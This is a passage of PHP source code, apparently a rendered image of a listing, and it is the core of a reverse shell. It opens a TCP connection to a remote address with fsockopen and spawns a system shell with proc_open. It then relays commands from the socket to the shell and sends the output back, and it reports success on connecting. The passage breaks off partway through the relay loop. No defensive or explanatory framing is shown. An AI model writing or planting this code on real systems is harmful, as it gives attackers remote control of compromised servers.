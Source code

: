 ```

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
```